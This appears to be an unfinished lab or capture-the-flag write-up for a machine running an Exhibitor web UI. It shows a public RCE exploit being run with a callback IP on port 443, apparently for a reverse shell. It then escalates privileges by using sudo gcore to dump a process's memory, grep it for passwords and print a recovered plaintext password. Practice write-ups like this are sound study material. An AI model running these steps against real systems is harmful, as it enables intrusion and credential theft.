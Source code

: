 #InProgress 
```IP

```
## Nmap
```

```

## Nmap UDP


# Enumeration

## HTTP 8080
powered by jetty
https://github.com/thehunt1s0n/Exihibitor-RCE
```
./exploit.sh 192.168.248.98 8080 192.168.45.193 443
```
## HTTP 8081 
redirects to http://192.168.248.98:8080/exhibitor/v1/ui/index.html


# PrivEsc

## Manual
sudo -l 
reveals
ALL) NOPASSWD: /usr/bin/gcore
```
ps aux | grep -i pass
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241115171938.png?raw=true)
```
sudo gcore 490
```
```
strings core.490 | grep -i pass -C 1
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241115171858.png?raw=true)
```
ClogKingpinInning731
```
## Automated

### Peass
### Mimikatz

